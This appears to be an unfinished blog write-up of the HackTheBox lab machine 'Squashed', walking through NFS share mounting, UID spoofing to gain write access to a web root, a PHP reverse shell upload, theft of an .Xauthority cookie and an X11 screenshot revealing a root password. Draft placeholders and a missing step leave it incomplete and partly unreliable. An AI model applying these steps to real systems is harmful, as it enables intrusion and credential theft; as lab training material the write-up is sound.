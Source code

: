 ```yaml
---
layout: post                                                                 
title: "HTB Writeup: Squashed"                                     
date: 2023-03-12 09:00:00 -0500                                              
description: Squashed is an easy HackTheBox machine created by polarbearer and C4rm310. It involves exploiting NFS, a webserver, and X11.
img: squashed/squashed.png                                                 
tags: [HackTheBox, HTB, Writeup, Squashed, NFS, X11]
---
```


Squashed is an easy HackTheBox machine created by [polarbearer](https://app.hackthebox.com/users/159204) and C4rm310. It involves exploiting NFS, a webserver, and X11. 

# Reconnaissance 

To start this box, let's run a Nmap scan. The Nmap scan reveals the ports for SSH (22), HTTP (80), RPC (111), and NFS (2049) are open.

_Note: I added the machine's IP to my /etc/hosts file._

```
nmap -sC -sV squashed.htb -oN top_1000                                     

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33327/udp6  mountd
|   100005  1,2,3      40437/tcp   mountd
|   100005  1,2,3      41841/tcp6  mountd
|   100005  1,2,3      52431/udp   mountd
|   100021  1,3,4      33915/tcp6  nlockmgr
|   100021  1,3,4      36863/tcp   nlockmgr
|   100021  1,3,4      48865/udp   nlockmgr
|   100021  1,3,4      53794/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## The Website
We continue our recon by looking at the website. It appears to be static. There is not anything for us to do here yet. Let's move on to NFS.

![Website]({{site.baseurl}}/assets/img/squashed/website.png)

## NFS
Network File System (NFS) is a server that allows for the transfer of files between machines. It works on a direcory system. It is commonly exploited due to weak authorization and authentication. 

### Enumerating NFS
We can view the file shares by using the `showmount` command.

```
showmount -e squashed.htb

Export list for squashed.htb:
/home/ross    *
/var/www/html *
```

There are two shares available. We can mount them to our system like this:
```
# create directories for the shares
sudo mkdir /mnt/webshare                                                     
sudo mkdir /mnt/ross                                                         

# mount the shares
sudo mount -t nfs squashed.htb:/var/www/html /mnt/webshare
sudo mount -t nfs squashed.htb:/home/ross /mnt/ross
```
Let's start by investigating the webshare.

### Investigating The Webshare

```
ls -la /mnt/webshare                                                        

ls: cannot access '/mnt/webshare/.': Permission denied
ls: cannot access '/mnt/webshare/..': Permission denied
ls: cannot access '/mnt/webshare/.htaccess': Permission denied
ls: cannot access '/mnt/webshare/index.html': Permission denied
ls: cannot access '/mnt/webshare/images': Permission denied
ls: cannot access '/mnt/webshare/css': Permission denied
ls: cannot access '/mnt/webshare/js': Permission denied
total 0
d????????? ? ? ? ?            ? .
d????????? ? ? ? ?            ? ..
?????????? ? ? ? ?            ? css
?????????? ? ? ? ?            ? .htaccess
?????????? ? ? ? ?            ? images
?????????? ? ? ? ?            ? index.html
?????????? ? ? ? ?            ? js
```

```
ls -ld /mnt/webshare/                                                        

drwxr-xr-- 5 2017 www-data 4096 Mar 14 09:45 /mnt/webshare/
```

### Investigating Ross' Share

```
ls -la /mnt/ross                                                             

total 68
drwxr-xr-x 14 1001 1001 4096 Mar 14 09:30 .
drwxr-xr-x  6 root   root   4096 Mar 14 09:43 ..
lrwxrwxrwx  1 root   root      9 Oct 20 09:24 .bash_history -> /dev/null
drwx------ 11 1001 1001 4096 Oct 21 10:57 .cache
drwx------ 12 1001 1001 4096 Oct 21 10:57 .config
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Desktop
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Documents
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Downloads
drwx------  3 1001 1001 4096 Oct 21 10:57 .gnupg
drwx------  3 1001 1001 4096 Oct 21 10:57 .local
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Music
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Pictures
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Public
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Templates
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Videos
lrwxrwxrwx  1 root   root      9 Oct 21 09:07 .viminfo -> /dev/null
-rw-------  1 1001 1001   57 Mar 14 09:30 .Xauthority
-rw-------  1 1001 1001 2475 Mar 14 09:30 .xsession-errors
-rw-------  1 1001 1001 2475 Dec 27 10:33 .xsession-errors.old
```

# Exploiting NFS
EXPLAIN THE VULNERABILITY

create dummy account. Mine is called `webshare-squasher` but you can choose a better name for yours :wink:.

```
sudo useradd -m webshare-squasher
```
mimic the UID of 2017

```
sudo usermod -u 2017 webshare-squasher && sudo groupmod -g 2017 webshare-squasher
```
switch users

```
sudo su webshare-squasher
```

see if we have access
```
ls -la /mnt/webshare

total 56
drwxr-xr-- 5 webshare-squasher www-data  4096 Mar 14 10:00 .
drwxr-xr-x 6 root              root      4096 Mar 14 09:43 ..
drwxr-xr-x 2 webshare-squasher www-data  4096 Mar 14 10:00 css
-rw-r--r-- 1 webshare-squasher www-data    44 Oct 21 06:30 .htaccess
drwxr-xr-x 2 webshare-squasher www-data  4096 Mar 14 10:00 images
-rw-r----- 1 webshare-squasher www-data 32532 Mar 14 10:00 index.html
drwxr-xr-x 2 webshare-squasher www-data  4096 Mar 14 10:00 js
```

we do! let's upload a php reverse shell. I'm using this one LINK TO PENTESTMONKEY's shell

access the file from the site
```
curl http://squashed.htb/shell.php
```

![Webshell]({{site.baseurl}}/assets/img/squashed/shell.png)

# Path To Root
```
cat /mnt/ross/.Xauthority | base64 
AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABDrUznPv+BDu3LVehkVgiZX

```
GET COMMANDS FOR THIS PART

```
w

 14:10:18 up 40 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               13:30   40:07   4.86s  0.04s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

```
xwd -root -screen -silent -display :0 > /tmp/screen.xwd
```

set up a python server in the directory you placed the screenshot and then retrieve it on your host machine.
```
curl http://squashed.htb:8000/screenshot.xwd
```

Convert the image using the `convert` commandline utility.

```
convert screenshot.xwd screenshot.png
```

it's a screenshot of a password manager! 

![Password Manager]({{site.baseurl}}/assets/img/squashed/pwd-manager.png)

Go back to your shell as alex. Use the `su` command and type in the root password to gain full access to the machine!

I hope you enjoyed this writeup! Happy Hacking :)
